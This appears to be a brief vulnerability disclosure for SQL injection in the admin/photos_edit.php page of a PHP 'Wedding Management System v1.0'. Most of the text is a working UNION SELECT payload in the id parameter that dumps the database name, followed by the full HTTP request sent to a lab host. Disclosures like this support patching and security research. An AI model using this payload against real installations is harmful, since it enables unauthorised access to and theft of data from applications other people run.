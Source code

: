 # Wedding Management System v1.0 by codeastr.com has SQL injection

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: \admin\photos_edit.php

Vulnerability location: /Wedding-Management/admin/photos_edit.php?id=, id

[+] Payload: id=-37%20union%20select%201,2,database(),4,5,6,7,8,9,10--+

dbname = dbwedding

```sql
GET /Wedding-Management/admin/photos_edit.php?id=-37%20union%20select%201,2,database(),4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/167984511-004cca98-4acd-4db5-97fd-aa55a25aae76.png)

![image](https://user-images.githubusercontent.com/54017627/167984531-900b25b5-cdd1-442a-b224-ee4d53b3ef53.png)
